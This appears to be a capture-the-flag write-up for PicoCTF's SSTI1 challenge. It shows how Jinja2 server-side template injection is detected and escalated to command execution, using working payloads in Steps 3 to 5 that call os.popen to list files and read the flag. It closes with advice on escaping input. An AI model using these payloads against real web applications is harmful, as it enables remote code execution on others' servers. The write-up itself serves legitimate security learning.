




# CTF Writeup: SSTI1 (PicoCTF 2025)

This challenge presents a simple website where users can submit an announcement, which then gets displayed back to them. At first glance, it seems harmless, but since this is a CTF challenge called **SSTI1**, the name itself is a huge hint: *Server-Side Template Injection*.  

---

## Step 1: Inspect the Website

The page looks like this:

  
  
  

The frontend HTML is straightforward:

```html
<!DOCTYPE html>
<html>
  <head><title>SSTI1</title></head>
  <body>
    <h1> Home </h1>
    <p>I built a cool website that lets you announce whatever you want!* </p>
    <form action="/" method="POST">
      What do you want to announce: <input name="content" id="announce"> 
      <button type="submit"> Ok </button>
    </form>
    <p style="font-size:10px;position:fixed;bottom:10px;left:10px;"> 
      *Announcements may only reach yourself 
    </p>
  </body>
</html>
```

- No extra parameters in the request.  
- No hidden scripts or suspicious endpoints.  
- Just a text input reflected back on the page.  

So the vulnerability must be in how this input is processed.

---

## Step 2: Hypotheses

When user input is echoed back, a few classic vulnerabilities come to mind:  

1. **XSS (Cross-Site Scripting)**  
   → Would run malicious JavaScript in the browser, but that affects only the client side.  

2. **SQL Injection**  
   → Doesn’t make sense here, since we aren’t interacting with a database.  

3. **SSTI (Server-Side Template Injection)**  
   → Happens when user input is directly passed into a template engine (like Latex, Jinja2, Smarty, Twig, etc.) and rendered as code.  

Given the challenge title, option (3) is the clear candidate. I have done this once with Latex and forced it to execute a command. Maybe this will be similar.

---

## Step 3: Testing for Jinja2

We have to start with a framework. Jinja2 is the most common template engine for Python (I would say), so we will start with that. A common way to test for Jinja2 is to inject a simple expression:  

```
{{ 5*5 }}
```

If the output renders as `25`, the input is being evaluated inside a Jinja2 template.

**Bingo!** The expression evaluates, confirming a Jinja2 SSTI.

  

---

## Step 4: Exploring the Template Context

With SSTI confirmed, the next step is to explore what’s available in the rendering context. One useful trick is to look at the template’s global python variables:

```
{{ self.__init__.__globals__ }}
```

The app outputs something like:

```
# {'__name__': 'jinja2.runtime', '__doc__': 'The runtime functions and state used by compiled templates.', ...
'__builtins__': {...}, 'Macro': <class 'jinja2.runtime.Macro'>, ... }
```

This reveals access to Python internals — including `__builtins__`.  
That’s huge, because from here, we can call dangerous functions like `__import__`.

---

## Step 5: Arbitrary Code Execution

Once we have `__import__`, it’s game over. We can import Python’s `os` module and execute system commands:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}
```

This executes `ls` on the server and returns the directory contents.  

  

Reading the flag is just as simple:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}
```

👉 Flag successfully retrieved.

  

---

## Step 6: Lessons Learned

This challenge demonstrates the danger of **mixing data and code**.  

- User input must never be directly passed into a template without escaping.  
- In Jinja2, the correct way to safely display user input is to **escape it**, ensuring that it’s treated purely as text rather than executable code.  

---

## Final Thoughts

What started as a plain input field turned into full server compromise with just a few payloads. This is why developers must **sanitize input** and **separate logic from presentation**.  

SSTI vulnerabilities might not be as well-known as XSS or SQL injections, but they’re just as dangerous. Especially, since they are less known.